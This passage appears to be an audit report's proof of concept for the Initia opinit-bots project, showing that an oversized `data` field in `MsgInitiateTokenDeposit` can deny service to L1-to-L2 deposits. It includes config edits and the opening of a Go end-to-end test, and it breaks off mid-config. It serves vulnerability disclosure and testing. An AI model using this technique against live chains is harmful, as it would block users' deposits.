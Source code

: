 The following PoC demonstrates how a large `data` field in `MsgInitiateTokenDeposit` can lead to a DoS of `L1->L2` deposits.

### Setup

Add the following changes. For simplicity, the L1 RPC limit is increased. Note that this does not affect the mempool limit. The RPC limit can be sidestepped by a block proposer anyway.

[`opinit-bots/e2e/helper.go# L253`](https://github.com/initia-labs/opinit-bots/blob/640649b97cbfa5782925b7dc8c0b62b8fa5367f6/e2e/helper.go# L253)
```

api := make(testutil.Toml)
api["rpc-max-body-bytes"] = 5_000_000
c["api"] = api
```

[`opinit-bots/e2e/helper.go# L260`](https://github.com/initia-labs/opinit-bots/blob/640649b97cbfa5782925b7dc8c0b62b8fa5367f6/e2e/helper.go# L260)
```

configToml := make(testutil.Toml)
rpc := make(testutil.Toml)
rpc["max_body_bytes"] = 5_000_000
configToml["rpc"] = rpc

err = testutil.ModifyTomlConfigFile(ctx, logger, client, t.Name(), l1Chain.Validators[0].VolumeName, "config/config.toml", configToml)
require.NoError(t, err)
```

### Test Case

Paste the test case into `opinit-bots/e2e/multiple_txs_test.go` and run with`go test -v . -timeout 30m -run TestMultipleDepositsAndWithdrawalsExceedingLimit`.
```

func TestMultipleDepositsAndWithdrawalsExceedingLimit(t *testing.T) {
	l1ChainConfig := &ChainConfig{
		ChainID:        "initiation-2",
		Image:          ibc.DockerImage{Repository: "ghcr.io/initia-labs/initiad", Version: "v0.6.4", UIDGID: "1000:1000"},
		Bin:            "initiad",
		Bech32Prefix:   "init",
		Denom:          "uinit",
		Gas:            "auto",
		GasPrices:      "0.025uinit",
		GasAdjustment:  1.2,
		TrustingPeriod: "168h",
		NumValidators:  1,
		NumFullNodes:   0,
	}

	l2ChainConfig := &ChainConfig{
		ChainID:        "minimove-2",
		Image:          ibc.DockerImage{Repository: "ghcr.io/initia-labs/minimove", Version: "v0.6.5", UIDGID: "1000:1000"},
		Bin:            "minitiad",
		Bech32Prefix:   "init",
		Denom:          "umin",
		Gas:            "auto",
		GasPrices:      "0.025umin",
		GasAdjustment:  1.2,
		TrustingPeriod: "168h",
		NumValidators:  1,
		NumFullNodes:   0,
```